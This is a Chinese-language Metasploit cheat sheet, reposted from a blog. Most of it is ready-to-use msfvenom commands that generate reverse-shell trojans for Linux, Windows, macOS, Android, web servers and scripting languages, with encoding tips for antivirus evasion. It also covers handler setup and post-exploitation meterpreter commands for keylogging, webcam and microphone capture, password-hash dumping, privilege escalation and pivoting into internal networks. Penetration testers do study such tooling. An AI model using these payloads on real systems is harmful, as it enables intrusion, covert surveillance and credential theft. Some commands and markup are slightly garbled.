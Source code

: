 > > metasploit-framework
神器的一些常用命令，以及内网渗透中如何使用它。'
## Mac下安装metasploit

mac下安装metasploit比较简单，官网下载pkg安装包，直接安装即可；需要注意的是安装完成后的路径。
msfconsole路径：
<pre><code>/opt/metasploit-framework/bin
</code></pre>
## msf的插件路径：
<pre><code>/opt/metasploit-framework/embedded/framework/modules/exploits</code></pre>
### msfvenom
作用：生成木马文件，替代早期版本的msfpayload和msfencoder。
### Options

msfvenom命令行选项如下：
<pre><code>-p, --payload    <payload>       指定需要使用的payload(攻击荷载)
-l, --list       [module_type]   列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all
-n, --nopsled    <length>        为payload预先指定一个NOP滑动长度
-f, --format     <format>        指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
-e, --encoder    [encoder]       指定需要使用的encoder（编码器）
-a, --arch       <architecture>  指定payload的目标架构
    --platform   <platform>      指定payload的目标平台
-s, --space      <length>        设定有效攻击荷载的最大长度
-b, --bad-chars  <list>          设定规避字符集，比如: &#039;\x00\xff&#039;
-i, --iterations <count>         指定payload的编码次数
-c, --add-code   <path>          指定一个附加的win32 shellcode文件
-x, --template   <path>          指定一个自定义的可执行文件作为模板
-k, --keep                       保护模板程序的动作，注入的payload作为一个新的进程运行
    --payload-options            列举payload的标准选项
-o, --out   <path>               保存payload
-v, --var-name <name>            指定一个自定义的变量，以确定输出格式
    --shellest                   最小化生成payload
-h, --help                       查看帮助选项
    --help-formats</code></pre>
### options usage

查看支持的payload列表：
<pre><code>msfvenom -l payloads
</code></pre>
查看支持的输出文件类型：
<pre><code>msfvenom --help-formats</code></pre>
查看支持的编码方式：(为了达到免杀的效果)

<pre><code>msfvenom -l encoders</code></pre>
查看支持的空字段模块：(为了达到免杀的效果)

<pre><code>msfvenom -l nops</pre></code>
#### 基础payload

命令格式

<pre><code>msfvenom -p <payload> <payload options> -f <format> -o <path></code></pre>
#### Linux

<pre><code>反向连接：
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
正向连接：
msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<Target IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf</code></pre>
#### Windows

<pre><code>msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe</pre></code>
#### Mac

<pre><code>msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
Web Payloads</code></pre>
#### PHP

<pre><code>msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php</code></pre>
#### ASP

<pre><code>msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp</code></pre>
#### JSP

<pre><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp</code></pre>
#### WAR

<pre><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.wa
Scripting Payloads</code></pre>
#### Python

<pre><code>msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py</code></pre>
#### Bash

<pre><code>msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh</code></pre>
#### Perl

<pre><code>msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl</code></pre>

#### Android
<pre><code>msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > Desktop/123.apk</code></pre>
#### 连接木马

开启msf，启用exploit/multi/handler模块。

<pre><code>use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
show options
set RHOST 10.0.0.1
set LPORT 12345  
exploit</code></pre>
#### meterpreter shell

当我们拿到目标服务器的meterpreter_shell后，可以进行很多操作。

<pre><code>backgroud 将msf进程放到后台
session -i 1 将进程拖回前台运行
run vnc 远程桌面的开启</code></pre>
#### 文件管理功能：

<pre><code>Download     下载文件
Edit          编辑
cat           查看
mkdir         创建
mv            移动
rm            删除
upload        上传         
rmdir         删除文件夹</code></pre>
#### 网络及系统操作：

<pre><code>Arp          看ARP缓冲表
Ifconfig     IP地址网卡
Getproxy     获取代理
Netstat      查看端口链接
Kill         结束进程
Ps           查看进程
Reboot       重启电脑
Reg          修改注册表
Shell        获取shell
Shutdown     关闭电脑
sysinfo      获取电脑信息</code></pre>
用户操作和其他功能讲解:

<pre><code>enumdesktops     用户登录数
keyscan_dump　　 键盘记录－下载
keyscan_start　　键盘记录　－　开始
keyscan_stop 　　键盘记录　－　停止
Uictl　　　　　　获取键盘鼠标控制权
record_mic　　　 音频录制
webcam_chat　　　查看摄像头接口
webcam_list　　　查看摄像头列表
webcam_stream　　摄像头视频获取
Getsystem　　　　获取高权限
Hashdump　　　   下载ＨＡＳＨ</code></pre>
#### meterpreter添加路由

大多时候我们获取到的meterpreter shell处于内网，而我们需要代理到目标内网环境中，扫描其内网服务器。这时可以使用route功能，添加一条通向目标服务器内网的路由。
#### 更新Meterpreter
<pre>更新命令是：msfupdate
、执行apt-get update
获取更新列表
、执行apt-get install metasploit-framework</code></pre>

> > 转载修改至
**https**://thief.one/2017/08/01/1/
